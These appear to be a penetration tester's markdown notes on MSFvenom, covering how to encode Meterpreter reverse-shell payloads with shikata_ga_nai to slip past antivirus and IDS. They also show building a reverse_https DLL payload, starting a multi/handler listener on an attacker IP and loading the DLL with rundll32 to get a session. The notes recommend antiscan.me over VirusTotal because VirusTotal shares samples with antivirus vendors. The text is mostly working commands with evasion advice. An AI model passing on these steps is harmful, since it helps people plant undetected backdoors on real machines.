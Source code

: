 - Generating payloads is just the first step; nowadays security products, such as Intrusion Detection Systems (IDSs), antivirus and anti-malware software, can easily pick up the shellcode generated by MSFvenom. To help us evade security, we can use encoders to encode our shellcode.

## Place where all encoders reside
```python
┌──(root㉿kali)-[/home/hyok]
└─# ls /usr/share/metasploit-framework/modules/encoders      
cmd  generic  mipsbe  mipsle  php  ppc  ruby  sparc  x64  x86
```

#### Listing all the encoders using metasploit
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q
[*] Starting persistent handler(s)...
msf6 > show encoders
```

## Encoding a payload
```python
msf6 > msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.9 -f exe -e x86/shikata_ga_nai -i 10 -o encoded.exe
```
- To encode one of our previous payloads, we simple add the `-e` option, followed by the encoder we want to use.
- We can use the `-i` option, followed by the number of times to encode the payload.

#### Verifying that your payload is detected by anvirus software or not, let's use virustotal:
Note - virustotal send the scan results of new payloads to the respected companies of antivirus software so that they can update their software. So, we can't use it instead we are going to use **[https://antiscan.me/](https://antiscan.me/)

**Note-2 - All of your encoders are placed inside kali linux machine in "/usr/share/metasploit-framework/modules/encoders/x86"

## Generating payload with dll output format

#### First, we will generate our payload using dll as the output format and set up our listener:
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q                   
[*] Starting persistent handler(s)...
msf6 > msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.216.9 -f dll -o inject.dll
```

#### Setting up a listener
```python
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.216.9
LHOST => 192.168.216.9
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.216.9:8443
```

#### Loading/Running DLL inside Windows
![[MSFvenom_DLL_running_on_windows.jpeg]]
- Unlike an executable, we need to use another application to load our DLL payload.
- Above we use `rundll32.exe` to load the library and run our shellcode.
- To load the DLL, use `rundll32.exe`, followed by the DLL we created, and the entry point name `main`.
- After the above step you get a session in your handler running terminal
